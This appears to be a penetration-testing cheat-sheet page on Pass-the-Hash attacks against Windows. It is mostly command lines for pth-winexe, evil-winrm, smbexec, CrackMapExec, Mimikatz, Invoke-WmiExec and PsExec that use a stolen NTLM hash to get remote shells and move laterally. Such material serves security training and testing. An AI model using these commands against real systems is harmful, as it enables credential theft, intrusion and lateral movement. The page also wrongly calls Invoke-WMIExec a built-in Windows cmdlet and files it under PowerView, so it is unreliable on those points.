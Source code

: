 # Pass-the-Hash

A Pass-the-Hash (PtH) attack is a credential theft technique primarily targeting Windows-based systems. In this attack, an attacker obtains the hashed password of a user and uses it to authenticate as that user, bypassing the need for the actual plain-text password.

[#pass-the-hash-attack](../../executive-pt/post-exploitation/windows-post-exploitation/windows-dump-crack-hashes.md#pass-the-hash-attack "mention")

## Authentication through the stolen password hash

This is the main step where the adversary passes the hash to impersonate the user and gain access to the remote system.

### With pth-winexec (From Kali)

* [GitHub - byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
* [Pass the Hash toolkit, Winexe | Kali Linux](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/)

```bash
pth-winexe -U $USER_ACCOUNT%$NTLM_HASH //$HOST_IP powershell
```

### With evil-winrm (From Kali)

The "evil-winrm" tool is a Ruby gem that enables the execution of remote commands on a Windows machine using the Windows Remote Management (WinRM) protocol.

```bash
evil-winrm -u $USER_ACCOUNT -H $NTLM_HASH -i $HOST_IP
```

### With SMBExec (From Kali)

```bash
cd /usr/share/doc/python3-impacket/examples/smbexec.py .

python3 smbexec.py <DOMAIN>/<USER>@<IP> -hashes <LMHASH>:<NTHASH>
```

### With CrackMapExec (From Kali)

```bash
crackmapexec smb <IP> -u USER -H <LM:NT>
```





### With Mimikatz (From Windows attack  machine)

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:$USER /domain:domain.com /ntlm:$NTLM_HASH /run:powershell.exe"
```
{% endcode %}

More details in this page: [mimikatz.md](../../../tools/tools/mimikatz.md "mention")

### With Powershell (PowerView) (From Windows attack Machine

It is common for adversaries to use the _**Invoke-WMIExec**_ cmdlet, which allows execution of arbitrary commands on a remote Windows machine using WMI (Windows Management Instrumentation), to perform a PtH attack.

{% code overflow="wrap" %}
```powershell
Invoke-WmiExec -target $HOST_IP -hash a0c8746a6efc7782c7c19c55185145be -username Alice -command powershell
```
{% endcode %}

{% hint style="info" %}
Note that Invoke-WMIExec is a built-in PowerShell cmdlet that is present in many recent Windows systems. This feature enables the execution of arbitrary commands on a remote Windows machine through Windows Management Instrumentation (WMI). You can run Invoke-WMIExec directly from a PowerShell prompt or integrate it into a PowerShell script.
{% endhint %}



## Accessing resources through new user account

In the third step, we uses the newly obtained user account to expand their network access. For instance, the adversary can use a command-line utility called **PsExec** to perform remote code execution on another host.

```powershell
psexec.exe \\$HOST_IP cmd.exe
```



## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash" %}


